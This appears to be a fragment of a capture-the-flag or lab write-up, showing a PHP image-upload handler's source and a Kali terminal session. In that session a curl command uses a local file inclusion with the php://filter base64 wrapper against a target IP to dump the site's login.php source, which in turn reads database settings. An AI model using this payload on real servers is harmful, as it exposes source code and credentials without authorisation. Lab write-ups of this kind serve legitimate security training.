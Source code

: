 ```
        </body>
</html>
<?php 
if(isset($_POST['submit'])) {
        if ($_FILES['file']['error'] <= 0) {
                $filename  = $_FILES['file']['name'];
                $filetype  = $_FILES['file']['type'];
                $uploaddir = 'upload/';
                $file_ext  = strrchr($filename, '.');
                $imageinfo = getimagesize($_FILES['file']['tmp_name']);
                $whitelist = array(".jpg",".jpeg",".gif",".png"); 

                if (!(in_array($file_ext, $whitelist))) {
                        die('Not allowed extension, please upload images only.');
                }

                if(strpos($filetype,'image') === false) {
                        die('Error 001');
                }

                if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
                        die('Error 002');
                }

                if(substr_count($filetype, '/')>1){
                        die('Error 003');
                }

                $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

                if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                        echo "<img src=\"".$uploadfile."\"><br />";
                } else {
                        die('Error 4');
                }
        }
}

?>base64: entrada inválida
```
```
┌──(al3j4ndr0㉿kali)-[~]
└─$ curl -s http://174.0.0.129?page=php://filter/convert.base64-encode/resource=login | grep -e '[^\ ]\{40,\}' | base64 -d
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
```